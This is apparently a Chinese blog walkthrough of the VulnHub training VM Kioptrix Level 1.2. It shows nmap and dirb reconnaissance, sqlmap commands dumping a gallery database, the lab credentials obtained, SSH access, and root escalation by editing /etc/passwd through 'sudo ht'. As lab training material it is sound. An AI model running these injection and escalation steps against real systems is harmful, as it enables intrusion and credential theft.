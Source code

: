 # 原创
：  VulnHub渗透测试实战靶场 - KIOPTRIX: LEVEL 1.2

# VulnHub渗透测试实战靶场 - KIOPTRIX: LEVEL 1.2

#### VulnHub渗透测试实战靶场 - KIOPTRIX: LEVEL 1.2

## 环境下载

> 
戳此进行[环境下载](https://download.vulnhub.com/kioptrix/KVM3.rar)


## KIOPTRIX: LEVEL 1靶机搭建

> 
将下载好的靶机导入Vmware，网络连接设置为NAT模式即可


## 渗透测试

### 信息搜集

> 
用arp-scan探测一下网段内目标靶机的IP：`sudo arp-scan -l`<br/> 得到目标靶机的IP为：`192.168.246.135`


> 
用Nmap探测一下目标靶机IP的端口信息：`sudo nmap -sS -A 192.168.246.135`，发现开放了22和80两个端口


> 
用dirb扫描一下web目录：`dirb http://192.168.246.135`


### 漏洞挖掘

> 
测试后发现需要添加一个host


> 
发现`http://192.168.246.135/gallery/gallery.php?id=1`存在SQL注入漏洞


> 
利用sqlmap得到数据库名：`sqlmap -u http://192.168.246.135/gallery/gallery.php?id=1 --dbs`


> 
利用sqlmap得到gallery数据库中的表名：`sqlmap -u http://192.168.246.135/gallery/gallery.php?id=1 -D gallery --tables`


> 
利用sqlmap得到gallery数据库中的表名：`sqlmap -u http://192.168.246.135/gallery/gallery.php?id=1 -D gallery -T gallarific_users --columns`


> 
得到一组用户名和密码：`admin:n0t7t1k4`


> 
在另一个表`dev_accounts`中，得到了两组用户名和密码


```
dreg：Mast3r
loneferret：starwars

```

### getshell

> 
利用上述得到的信息，发现后两组用户名和密码可以成功连接ssh


### 提权

> 
查看`/etc/passwd`发现`loneferret`用户存在利用点


> 
查看`loneferret`用户家目录下信息


> 
根据提示，使用`sudo ht`命令，修改`/etc/passwd`中loneferret用户和root用户一样


> 
重新连接ssh，发现成功提权到root用户


